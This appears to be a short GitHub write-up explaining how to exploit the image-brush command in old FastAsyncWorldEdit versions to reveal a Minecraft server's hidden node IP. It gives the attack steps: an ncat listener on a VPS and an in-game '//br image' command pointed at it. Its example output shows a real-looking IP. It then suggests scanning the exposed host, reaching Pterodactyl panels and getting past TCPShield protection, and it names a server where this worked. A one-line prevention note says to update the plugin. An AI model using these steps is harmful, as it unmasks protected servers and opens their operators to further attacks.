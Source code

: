 # FastAsyncWorldEdit (FAWE) getting node IP method.

### Overview
FAWE is a plugin made for faster world editing (faster WorldEdit).

### Analysis
FAWE has an option for importing images into your world. This could be exploited in old versions. I don't know from what version it got patched.
```
//br image https://i.imgur.com/EQnxJL1_d.png 20
           (URL)                             (Radius)
```

### Exploiting
We need a VPS server or a server that can receive connections from anywhere in the world. In this case I'm going to use a VPS.
(port) = A number from 1-65535.
(server_ip) = The vps' IP.

VPS-SIDE:
1. We need to install `ncat` on our VPS.
    * `apt-get install ncat`
2. Then we listen for connections.
    * `ncat -lnvp (port)`

ATTACK-SIDE:
1. Easy. Run a load image process but with our information.
    * `//br image (server_ip):(port) 20`

We will then get an output like this:

```c
Ncat: Connection from 212.192.29.22.
Ncat: Connection from 212.192.29.22:37100.
```

### Prevention
Update FastAsyncWorldEdit to the latest versions.

### What we can do with the IP?
- Scan the server in case we can get more information, such as Pterodactyl domain which we can expose whole server nodes/get the panel.
- If we are in the situation that we just get into a Build Server through a TCPShield' server. Pinger sometimes is installed for no reason so we can just send the message in chat and wait. This happened to me in Hycraft.
